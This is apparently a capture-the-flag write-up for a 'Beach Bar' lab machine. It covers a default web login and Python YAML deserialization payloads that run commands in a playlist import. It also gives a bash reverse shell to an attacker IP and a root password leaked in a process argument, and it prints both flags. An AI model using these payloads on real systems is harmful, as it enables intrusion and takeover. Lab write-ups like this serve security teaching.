





<div align="center">


# Beach Bar

#Web #Boot2Root

</div>

---


```bash
nmap -sV -sC 10.113.183.42 -oN nmap.txt
```

I find a webserver running on port 80.



I find a login page.

hah, view page source and I find default login for dj:
`dj:dj`

I have the option to `export` and `import` YAML playlists.

This is an exported example:
```yaml
# Beach Bar jukebox playlist export
playlist:
  name: Sunset Session
  vibe: golden hour
  tracks:
    - artist: Khruangbin
      title: Maria Tambien
    - artist: Men I Trust
      title: Show Me How
    - artist: Crumb
      title: Locket
```

I try to import this playlist:
```yaml
playlist:
  name: test

```
And I can view it:


Since we can see the output of the rendered yaml file we should be able to get some `xss` / `rce` going.

I find this blog on hacktricks: https://hacktricks.wiki/en/pentesting-web/deserialization/python-yaml-deserialization.html

```yaml
!!python/object/new:tuple
- !!python/object/new:map
  - !!python/name:eval
  - ["__import__('os').system('id')"]
```

This gives me: 



Something happens, but why only 0?

It is the exit code!

I change it to:
```yaml
!!python/object/new:tuple
- !!python/object/new:map
  - !!python/name:eval
  - ["__import__('os').popen('id').read()"]
```

`popen` with `read()` and I get output!



Lets get a reverse shell:
```yaml
!!python/object/new:tuple
- !!python/object/new:map
  - !!python/name:eval
  - ["__import__('os').popen('bash -c \"bash -i >& /dev/tcp/192.168.197.101/1337 0>&1\"')"]
```
We can remove `read()` as we do not need the output.



Lesgooo.

```bash
cat /home/bartender/user.txt
THM{y4ml_pl4yl1st_pwns_th3_b34ch}
```

I upgrade my shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + z
stty raw --echo; fg
export TERM=xterm
```

I cannot check sudo perms (no password)

I check running processes:
```bash
ps auxww
```
```
root         611  0.0  0.2  20176 11704 ?        Ss   12:34   0:00 /opt/beach-bar/venv/bin/python /opt/beach-bar/jukeboxd/jukeboxd.py --stream-pass SunsetSpritz2024! --bitrate 320k
```

root is running the jukebox with a `--stream-pass`?

hah, it was the root password.

```bash
su root
# SunsetSpritz2024!
cat /root/root.txt
THM{cr3d3nt14l_r3us3_4t_th3_b34ch_b4r}
```

